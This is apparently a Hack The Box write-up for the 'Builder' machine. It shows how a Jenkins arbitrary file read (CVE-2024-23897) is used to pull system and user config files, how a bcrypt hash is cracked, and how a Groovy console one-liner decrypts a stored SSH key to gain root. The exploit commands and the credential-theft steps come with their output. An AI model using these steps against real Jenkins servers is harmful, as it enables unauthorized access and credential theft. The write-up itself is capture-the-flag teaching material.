 ```yaml
---
title: "Builder"
date: 06-04-2025
categories: [Linux, Medium]
tags: [Medium,Jenkins, LFI, Password Cracking]
image: https://labs.hackthebox.com/storage/avatars/a0f6d6a08e0806448341587cd59450a6.png
---
```


Builder is a medium Linux box. The machine only has two ports open one of which is an open **Jenkins** portal. This version of Jenkins is vulnerable to a file disclosure. Using this arbitrary file read we can read configuration files which give us a hashed password for a user that has login access to Jenkins. After cracking this password we can run a script inside groovy script which lets us decrypt the private ssh key that gives us root access.

![builder_info_card](/assets/images/builder/Builder.png)

## Enumeration

Using nmap we see that there are only two ports open, ssh and 8080 which points to a Jenkins instance.

```
nmap 10.10.11.10 -p22,8080 -oN nmap/builder -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-06 19:10 CEST
Nmap scan report for 10.10.11.10
Host is up (0.016s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

If we go to `http://10.10.11.10:8080/` we get to view the Jenkins portal. At the bottom right we get which version is running which is 2.441. Going over the users page we see that there is another user registered that being Jennifer.

![builder](/assets/images/builder/page.png)

#### File Disclosure 

This version is vulnerable to a file disclosure, I used [this](https://www.exploit-db.com/exploits/51993) script to retrieve the files from the server. But before I could do this I had to get familiar with Jenkins and how it stores file and user information. Below is a handy table I found of how the jenkins home directory is structured. 

```
/jenkins
├── config.xml
├── credentials.xml
├── jobs
├── plugins
├── users
├── secrets
├── fingerprints
├── workspace
├── logs
├── updates
├── userContent
└── ...
```
We can already see some files that could be of interest. Before we can retrieve them we must know their full path. I stumbled upon it by luck when testing for the file disclosure, when retrieving the `/etc/passwd` file I found the user `Jenkins` with its home directory located at `var/jenkins_home`. With the full path we can now try to retrieve the files.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
```

With this file we can see that there is no one with a home directory in this machine so reading ssh keys is not going to work to get us access. Reading the `credentials.xml` file provides us with an encrypted text which seems to be an ssh key. I tried some scripts to decrypt it with some secret keys but they did not work. After doing some more research I was able to find that the file inside of `var/jenkins_home/users/users.xml` contains information about users. 

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
```

#### Finding and Decrypting Jennifer's Password

From this we get that Jennifer has a directory with a name of `jennifer_12108429903186576833` inside this directory we can retrieve her configuration file. Which is located at `var/jenkins_home/users/jennifer_12108429903186576833/config.xml`. Inside this file we can find a hashed password.

```
python3 LFI.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
...
...
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

The hash itself is `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a` and we can use `Hashcat` with mode 3200 to crack it. Using `rockyou.txt` as a wordlist we get that the password is `princess`. Since Jennifer does not have a home directory and is not a user on the box we cant ssh into it just yet. But with this new credentials we can login as this user into the Jenkins instance.

#### Decrypting the SSH Key

Using [this](https://www.cloudsek.com/blog/xposing-the-exploitation-how-cve-2024-23897-led-to-the-compromise-of-github-repos-via-jenkins-lfi-vulnerability) blog post about the same CVE I was able to decrypt the ssh key that we previously found in the `credentials.xml` file. We can now go to http://10.10.11.10:8080/script/ where we can use the terminal to run the following line of code: 

```
println(hudson.util.Secret.fromString("{XXX=}").getPlainText())
```

After placing the encrypted key into `XXX` we get the private key to the user root which we can then use to ssh into the box.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3G9oUyouXj/0CLya9Wz7Vs31bC4rdvgv7n9PCwrApm8PmGCSLgv
...
```

![builder](/assets/images/builder/root.png)

